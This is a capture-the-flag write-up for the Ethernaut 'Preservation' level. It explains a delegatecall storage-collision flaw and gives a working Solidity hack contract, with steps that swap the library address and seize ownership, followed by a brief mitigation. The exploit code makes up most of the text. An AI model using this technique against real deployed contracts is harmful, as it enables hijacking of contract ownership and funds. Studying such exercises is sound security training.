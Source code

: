 ```yaml
---
title: Level 16 - Presercation
slug: level-16
published: 05-24-2023
lastEdited:
imgSrc: /images/ethernaut/ethernaut16.svg
---
```


## Objectives

1. Claim ownership of the contract.

## Vulnerabilities

### Delegatecall

`Delegatecall` Can be used to modify specify storage variables. In this case, we can change the address of a library
instance to our hack contract. From there, we can modify the owner by using a function with the same function signature
as in the library contract.

## Exploit

1. Write and deploy this hack contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Preservation.sol";

contract PreservationHack {
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;
    uint storedTime;

    Preservation target;

    constructor(address _targetAddress){
        target = Preservation(_targetAddress);
    }

    function attack() public {
        target.setFirstTime(uint(uint160(address(this))));
    }

    function setTime(uint _time) public {
        owner = msg.sender;
    }
}
```

2. Call the `attack` function which will modify the first storage variable of the Preservation contract to the
   address of ths hack contract.

3. Call the `setFirstTime` function with any uint as input to modify the owner to the hack contract.

## Suggested mitigation

Using stateless libraries prevent this type of exploit.

## Further reading

- Delegatecall exploits <ExternalLink href={"https://solidity-by-example.org/hacks/delegatecall/"} />
